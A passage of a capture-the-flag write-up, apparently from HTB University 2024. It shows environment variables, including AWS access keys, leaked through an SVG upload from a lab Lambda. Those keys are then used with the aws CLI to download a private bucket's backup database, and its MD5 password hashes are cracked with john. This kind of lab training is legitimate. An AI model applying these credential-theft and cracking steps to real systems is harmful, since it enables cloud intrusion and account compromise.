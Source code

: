 Using the same method we were able to extract the environment variables located on /proc/self/environ:

```
cat file_8m6ImlfKiB.svg 
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="10" y="20">AWS_LAMBDA_FUNCTION_VERSION=$LATESTEDGE_PORT=4566HOSTNAME=e1e35b1f5338_LAMBDA_CONTROL_SOCKET=14AWS_LAMBDA_FUNCTION_TIMEOUT=10LOCALSTACK_HOSTNAME=172.18.0.2AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/UploadToS3LAMBDA_TASK_ROOT=/var/taskLD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/libAWS_LAMBDA_RUNTIME_API=127.0.0.1:9001AWS_LAMBDA_LOG_STREAM_NAME=2024/12/17/[$LATEST]54d2b33123587737c87e8aed538da00b_LAMBDA_SHARED_MEM_FD=11AWS_EXECUTION_ENV=AWS_Lambda_python3.8_LAMBDA_RUNTIME_LOAD_TIME=1530232235231AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000AWS_LAMBDA_FUNCTION_NAME=UploadToS3PATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin_LAMBDA_LOG_FD=9AWS_DEFAULT_REGION=us-east-1PWD=/var/taskAWS_SECRET_ACCESS_KEY=eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUYLAMBDA_RUNTIME_DIR=/var/runtimeLANG=en_US.UTF-8TZ=:UTCAWS_REGION=us-east-1AWS_ACCESS_KEY_ID=AKIA5M34BDN8GCJGRFFBSHLVL=0HOME=/home/sbx_user1051AWS_LAMBDA_FUNCTION_INVOKED_ARN=arn:aws:lambda:us-east-1:000000000000:function:UploadToS3_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2_AWS_XRAY_DAEMON_PORT=2000_X_AMZN_TRACE_ID=Root=1-dc99d00f-c079a84d433534434534ef0d;Parent=91ed514f1e5c03b2;Sampled=1_LAMBDA_SB_ID=7AWS_XRAY_CONTEXT_MISSING=LOG_ERROR_LAMBDA_CONSOLE_SOCKET=16AWS_LAMBDA_COGNITO_IDENTITY={}_HANDLER=handler.lambda_handlerDOCKER_LAMBDA_USE_STDIN=1AWS_LAMBDA_FUNCTION_MEMORY_SIZE=1536</text>
</svg>
```

We will use the data we extracted above to login to the AWS bucket and list its content !

```
AWS_SECRET_ACCESS_KEY=eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUYLAMBDA\
AWS_REGION=us-east-1\
AWS_ACCESS_KEY_ID=AKIA5M34BDN8GCJGRFFBSHLVL
```

![AWS login](/HTB-UNIVERSITY-2024/HTB-UNIV/2024/images/aws_login.png)

We can see that there is a folder containing all of the file uploaded since the beginning called “uploads” and another one called “clouded-internal”, in the second folder we find a database called backup.db so we download it:
`
`$ aws --endpoint=http://local.clouded.htb/ s3 sync s3://clouded-internal .`
`download: s3://clouded-internal/backup.db to ./backup.db `

We open the .db file using sqlitebrowser:

![Database](/HTB-UNIVERSITY-2024/HTB-UNIV/2024/images/database.png)

In the database there are 50 rows containing each a first and last name as well as an md5 password, all of them got cracked in a few seconds using john.

`
`john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash.txt`
`

## Rabbithole 
